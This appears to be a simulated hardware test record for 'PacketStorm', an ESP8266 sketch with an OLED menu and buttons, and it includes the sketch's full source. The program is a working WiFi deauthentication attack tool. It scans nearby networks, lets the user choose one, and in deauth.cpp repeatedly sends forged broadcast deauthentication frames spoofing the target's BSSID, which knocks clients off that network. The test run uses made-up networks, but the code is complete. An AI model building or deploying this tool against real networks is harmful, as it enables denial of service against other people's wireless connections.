
A sketch run on a simulated ESP8266 (NodeMCU). Shown: 128×64 one-colour display. The inputs (shaded band) are chosen by the test bench; at power-on: GPIO 13 (BTN_SELECT) HIGH, GPIO 12 (BTN_DOWN) HIGH, GPIO 14 (BTN_UP) HIGH. A WiFi scan finds three made-up networks.

Above: at 3.2 s.
3.3 s: GPIO 13 (BTN_SELECT) pulled LOW for 0.15 s
At 3.5 s:

4.0 s: GPIO 12 (BTN_DOWN) driven LOW and GPIO 13 (BTN_SELECT) driven LOW
7.0 s: GPIO 12 (BTN_DOWN) driven HIGH
At 7.72 s:

9.1 s: GPIO 14 (BTN_UP) pulled LOW for 3.2 s
At 14.2 s:

15.1 s: GPIO 14 (BTN_UP) pulled LOW for 1 s
At 17.6 s:

18.6 s: GPIO 12 (BTN_DOWN) driven LOW
At 27.0 s:

Timing chart, 0 to 28.5 s (numbered marks = the images above; inputs shaded):


The sketch:

PacketStorm.ino
```cpp
/*
 * PacketStorm
 * An ESP8266-based WiFi deauthentication tool with OLED display and button controls.
 * Author - WireBits
 */

#include <Wire.h>
#include "scan.h"
#include "menu.h"
#include "deauth.h"
#include <ESP8266WiFi.h>
#include <Adafruit_GFX.h>
#include <Adafruit_SSD1306.h>

#define BTN_UP     14
#define BTN_DOWN   12
#define BTN_SELECT 13

#define OLED_RESET -1
#define SCREEN_WIDTH 128
#define SCREEN_HEIGHT 64

Adafruit_SSD1306 display(SCREEN_WIDTH, SCREEN_HEIGHT, &Wire, OLED_RESET);

enum MenuState { MAIN_MENU, SELECT_MENU, DEAUTH_MENU };
MenuState menuState = MAIN_MENU;

int mainOption = 0;
int selectOption = 0;
int deauthOption = 0;
int scrollOffset = 0;

String selectedNetwork = "";

void setup() {
    pinMode(BTN_UP, INPUT_PULLUP);
    pinMode(BTN_DOWN, INPUT_PULLUP);
    pinMode(BTN_SELECT, INPUT_PULLUP);
    if (!display.begin(SSD1306_SWITCHCAPVCC, 0x3C)) {
        while (true);
    }
    WiFi.mode(WIFI_STA);
    WiFi.disconnect();
    display.clearDisplay();
    display.setTextSize(1);
    display.setTextColor(SSD1306_WHITE);
    display.setCursor(30, 28);
    display.println("PacketStorm");
    display.display();
    delay(2000);
}

void loop() {
    display.clearDisplay();
    switch (menuState) {
        case MAIN_MENU:
            showMainMenu(mainOption);
            break;
        case SELECT_MENU:
            showSelectMenu(selectOption, scrollOffset, networkCount);
            break;
        case DEAUTH_MENU:
            showDeauthMenu(selectedNetwork, deauthOption, deauthRunning);
            break;
    }
    display.display();
    bool up = digitalRead(BTN_UP) == LOW;
    bool down = digitalRead(BTN_DOWN) == LOW;
    bool select = digitalRead(BTN_SELECT) == LOW;
    if (up || down) {
        int direction = down ? 1 : -1;
        switch (menuState) {
            case MAIN_MENU:
                mainOption = (mainOption + direction + 2) % 2;
                break;
            case SELECT_MENU:
                selectOption = constrain(selectOption + direction, 0, networkCount);
                scrollOffset = constrain(selectOption - 3, 0, max(0, networkCount - 4));
                break;
            case DEAUTH_MENU:
                deauthOption = (deauthOption + direction + 3) % 3;
                break;
        }
        delay(200);
    }
    if (select) {
        switch (menuState) {
            case MAIN_MENU:
                if (mainOption == 0) startWiFiScan();
                else {
                    menuState = SELECT_MENU;
                    selectOption = scrollOffset = 0;
                }
                break;
            case SELECT_MENU:
                if (selectOption == networkCount) {
                    menuState = MAIN_MENU;
                } else {
                    selectedNetwork = scannedNetworks[selectOption].ssid;
                    memcpy(targetBSSID, scannedNetworks[selectOption].bssid, 6);
                    targetChannel = scannedNetworks[selectOption].channel;
                    menuState = DEAUTH_MENU;
                    deauthOption = 0;
                }
                break;
            case DEAUTH_MENU:
                switch (deauthOption) {
                    case 0: startDeauth(selectOption); break;
                    case 1: if (deauthRunning) stopDeauth(); break;
                    case 2: menuState = MAIN_MENU; break;
                }
                break;
        }
        delay(500);
    }
    if (deauthRunning) {
        sendDeauth();
    }
}
```

deauth.cpp
```cpp
/*
 * Deauthentication CPP File
 * Author - WireBits
 */

#include "deauth.h"

uint8_t targetBSSID[6];
int targetChannel = 1;
bool deauthRunning = false;

const uint8_t deauthPacket[26] = {
    0xc0, 0x00, 0x3a, 0x01,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x07, 0x00
};

void startDeauth(int index) {
    WiFi.disconnect();
    wifi_promiscuous_enable(1);
    wifi_set_channel(targetChannel);
    deauthRunning = true;
}

void sendDeauth() {
    uint8_t packet[26];
    memcpy(packet, deauthPacket, 26);
    memcpy(&packet[10], targetBSSID, 6);
    memcpy(&packet[16], targetBSSID, 6);
    wifi_send_pkt_freedom(packet, 26, 0);
    delay(100);
}

void stopDeauth() {
    deauthRunning = false;
    wifi_promiscuous_enable(0);
    WiFi.mode(WIFI_STA);
}
```

deauth.h
```cpp
/*
 * Deauthentication Header File
 * Author - WireBits
 */

#ifndef DEAUTH_H
#define DEAUTH_H

#include <ESP8266WiFi.h>

extern uint8_t targetBSSID[6];
extern int targetChannel;
extern bool deauthRunning;

void startDeauth(int index);
void sendDeauth();
void stopDeauth();

#endif
```

menu.cpp
```cpp
/*
 * Menu CPP File
 * Author - WireBits
 */

#include "menu.h"
#include "scan.h"
#include <ESP8266WiFi.h>

void showMainMenu(int currentOption) {
    display.clearDisplay();
    const char* options[] = {"SCAN", "DEAUTH"};
    int totalOptions = 2;
    int menuHeight = totalOptions * 10;
    int startY = (display.height() - menuHeight) / 2;
    for (int i = 0; i < totalOptions; i++) {
        display.setCursor(5, startY + (i * 10));
        display.print(i == currentOption ? "* " : "  ");
        display.println(options[i]);
    }
    display.display();
}

void showSelectMenu(int selectMenuOption, int scrollOffset, int networkCount) {
    display.clearDisplay();
    display.setTextSize(1);
    display.setTextColor(SSD1306_WHITE);
    if (networkCount == 0) {
        display.setCursor(12, 28);
        display.println("No Networks Found!");
        display.display();
        return;
    }
    static unsigned long lastScrollTime = 0;
    static int scrollPos = 0;
    unsigned long currentTime = millis();
    int maxVisibleChars = 17;
    int endIndex = min(scrollOffset + 4, networkCount);
    for (int i = scrollOffset; i < endIndex; i++) {
        String wifiName = scannedNetworks[i].ssid;
        display.setCursor(5, 10 + (i - scrollOffset) * 10);
        display.print((i == selectMenuOption) ? "* " : "  ");
        if (i == selectMenuOption && wifiName.length() > maxVisibleChars) {
            if (currentTime - lastScrollTime > 400) {
                scrollPos = (scrollPos + 1) % (wifiName.length() - maxVisibleChars + 1);
                lastScrollTime = currentTime;
            }
            display.print(wifiName.substring(scrollPos, scrollPos + maxVisibleChars));
        } else {
            display.print(wifiName.substring(0, maxVisibleChars));
        }
    }
    display.setCursor(5, 10 + (endIndex - scrollOffset) * 10);
    display.print(selectMenuOption == networkCount ? "* " : "  ");
    display.println("BACK");
    display.display();
}

void showDeauthMenu(const String& selectedNetwork, int deauthMenuOption, bool deauthRunning) {
    display.clearDisplay();
    display.setTextSize(1);
    display.setTextColor(SSD1306_WHITE);
    if (selectedNetwork == "") {
        display.setCursor(12, 28);
        display.println("No Network Selected!");
        display.display();
        return;
    }
    static unsigned long lastScrollTime = 0;
    static int scrollPos = 0;
    unsigned long currentTime = millis();
    int maxVisibleChars = 16;
    String displaySSID = selectedNetwork;
    if (selectedNetwork.length() > maxVisibleChars) {
        if (currentTime - lastScrollTime > 400) {
            scrollPos = (scrollPos + 1) % (selectedNetwork.length() + 1);
            lastScrollTime = currentTime;
        }
        int start = scrollPos % (selectedNetwork.length() + 1);
        displaySSID = selectedNetwork.substring(start, start + maxVisibleChars);
    }
    int textWidth = displaySSID.length() * 6;
    int xPos = (display.width() - textWidth) / 2;
    if (xPos < 0) xPos = 0;
    display.setCursor(xPos, 10);
    display.println(displaySSID);
    int startY = 30;
    display.setCursor(5, startY);
    display.print(deauthMenuOption == 0 ? "* " : "  ");
    display.print("START");
    if (deauthRunning) display.print(" <");
    display.println();
    display.setCursor(5, startY + 10);
    display.print(deauthMenuOption == 1 ? "* " : "  ");
    display.print("STOP");
    if (!deauthRunning) display.print(" <");
    display.println();
    display.setCursor(5, startY + 20);
    display.print(deauthMenuOption == 2 ? "* " : "  ");
    display.println("BACK");
    display.display();
}
```

menu.h
```cpp
/*
 * Menu Header File
 * Author - WireBits
 */

#ifndef MENU_H
#define MENU_H

#include <Adafruit_SSD1306.h>

extern Adafruit_SSD1306 display;

void showMainMenu(int currentOption);
void showSelectMenu(int selectMenuOption, int scrollOffset, int networkCount);
void showDeauthMenu(const String& selectedNetwork, int deauthMenuOption, bool deauthRunning);

#endif
```

scan.cpp
```cpp
/*
 * Scanning Networks CPP File
 * Author - WireBits
 */

#include "scan.h"
#include <Wire.h>
#include <Arduino.h>
#include <ESP8266WiFi.h>
#include <Adafruit_GFX.h>
#include <Adafruit_SSD1306.h>

extern Adafruit_SSD1306 display;

WiFiNetwork scannedNetworks[50];
int networkCount = 0;

void startWiFiScan() {
    display.clearDisplay();
    display.setTextSize(1);
    display.setTextColor(SSD1306_WHITE);
    display.setCursor(38, 10);
    display.println("Scanning");
    display.display();
    WiFi.scanDelete();
    int totalSteps = 20;
    for (int i = 0; i <= totalSteps; i++) {
        display.fillRect(14, 30, (i * (100 / totalSteps)), 8, SSD1306_WHITE);
        display.fillRect(50, 45, 30, 10, SSD1306_BLACK);
        display.setCursor(50, 45);
        display.print(i * 5);
        display.print("%");
        display.display();
        delay(50);
    }
    networkCount = 0;
    int foundNetworks = WiFi.scanNetworks();
    for (int i = 0; i < foundNetworks && networkCount < 50; i++) {
        String cleanSSID = cleanWiFiName(WiFi.SSID(i));
        if (cleanSSID.length() > 0) {
            scannedNetworks[networkCount].ssid = cleanSSID;
            memcpy(scannedNetworks[networkCount].bssid, WiFi.BSSID(i), 6);
            scannedNetworks[networkCount].channel = WiFi.channel(i);
            networkCount++;
        }
    }
    display.clearDisplay();
    display.setCursor(22, 28);
    display.println("Scan Completed!");
    display.display();
}

String cleanWiFiName(String ssid) {
    String cleanSSID = "";
    for (int i = 0; i < ssid.length(); i++) {
        char c = ssid[i];
        if (isPrintable(c)) {
            cleanSSID += c;
        }
    }
    cleanSSID.trim();
    return cleanSSID;
}
```

scan.h
```cpp
/*
 * Scanning Networks Header File
 * Author - WireBits
 */

#ifndef SCAN_H
#define SCAN_H

#include <ESP8266WiFi.h>

struct WiFiNetwork {
    String ssid;
    uint8_t bssid[6];
    int channel;
};

extern WiFiNetwork scannedNetworks[50];
extern int networkCount;

void startWiFiScan();
String cleanWiFiName(String ssid);

#endif
```

Measured:
- after the input at 3.3 s, the display: first changes after 0.06 s (image 1 shows a later state)
- after the input at 7.0 s, the display: first differs from a run without the input after 0.65 s (image 2)
- after the input at 15.1 s, the display: first changes after 1.3 s (image 4 shows a later state)
- after the input at 18.6 s, the display: first changes after 1.2 s (image 5 shows a later state)
- what the display in image 4 shows lasts 0.7 s, from 17.1 s to 17.8 s
- what the display in image 5 shows lasts 0.7 s, from 26.5 s to 27.2 s
